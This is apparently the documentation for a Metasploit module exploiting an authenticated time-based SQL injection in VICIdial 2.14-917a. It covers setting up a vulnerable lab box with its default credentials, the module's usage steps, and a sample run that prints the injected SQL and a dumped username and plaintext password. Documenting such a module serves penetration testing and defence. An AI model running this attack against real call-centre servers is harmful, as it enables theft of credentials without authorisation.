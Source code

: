 ## Vulnerable Application

This module exploits a single authenticated SQL Injection vulnerability in VICIdial, affecting version 2.14-917a.

VICIdial does not encrypt passwords by default.

VICIBox/VICIdial includes an auto-update mechanism, so be aware for creating vulnerable boxes.

### Install

#### 9.0.3 & 10.0.0

1. Install the following OpenSUSE 10 ISO
- [ViciBox_v9.x86_64-9.0.3.iso](http://download.vicidial.com/iso/vicibox/server/ViciBox_v9.x86_64-9.0.3.iso)
or
- [ViciBox_v10.x86_64-10.0.0.iso](http://download.vicidial.com/iso/vicibox/server/archive/ViciBox_v10.x86_64-10.0.0.iso) :
    1. Change the default password (`root`:`vicidial`)
    2. Set Timezone, Keyboard Layout, ok the license, and Language
    3. Network settings should autoconfigure (Tested on VMware Fusion). Network settings can be configured with the
        command `yast lan` if necessary
2. Run `vicibox-express` to initiate the ViciDial Express Installation, everything can be kept as default
3. Navigate to `http://<ip-address>/`
    1. Click `Administration` and login with default credentials username: `6666`, password: `1234`
    2. Once logged in, Click `Continue on to the Initial Setup`. Everything can be kept as default. 
4. The complete list of setup instructions can be found by following this
[link](http://download.vicidial.com/iso/vicibox/server/ViciBox_v9-install.pdf)


## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/scanner/http/vicidial_sql_enum_users_pass`
1. Do: `set RHOSTS <ip>`
1. Do: `set RPORT <port>`
1. Do: `set TARGETURI <path>`
1. Do: `set COUNT <number>`
1. Do: `set SqliDelay <number>`
1. Do: `run`
1. The module will exploit the SQL injection and return the extracted usernames and passwords

## Options

### COUNT

Number of records to dump. Defaults to 1.

### SqliDelay

Delay in seconds for SQL Injection sleep. Defaults to 1.

## Scenarios

### ViciBox 9.0.3

```
msf6 auxiliary(scanner/http/vicidial_sql_enum_users_pass) > run https://192.168.1.100
[*] Running module against 192.168.1.100

[*] Checking if target is vulnerable...
[+] Target is vulnerable to SQL injection.
[*] {SQLi} Executing (select group_concat(aR) from (select cast(concat_ws(';',ifnull(User,''),ifnull(Pass,'')) as binary) aR from vicidial_users limit 1) juBM)
[*] {SQLi} Encoded to (select group_concat(aR) from (select cast(concat_ws(0x3b,ifnull(User,repeat(0x5b,0)),ifnull(Pass,repeat(0x7d,0))) as binary) aR from vicidial_users limit 1) juBM)
[*] {SQLi} Time-based injection: expecting output of length 16
[+] Dumped table contents:
vicidial_users
==============

    User  Pass
    ----  ----
    6666  aLLah4465

[*] Auxiliary module execution completed
```
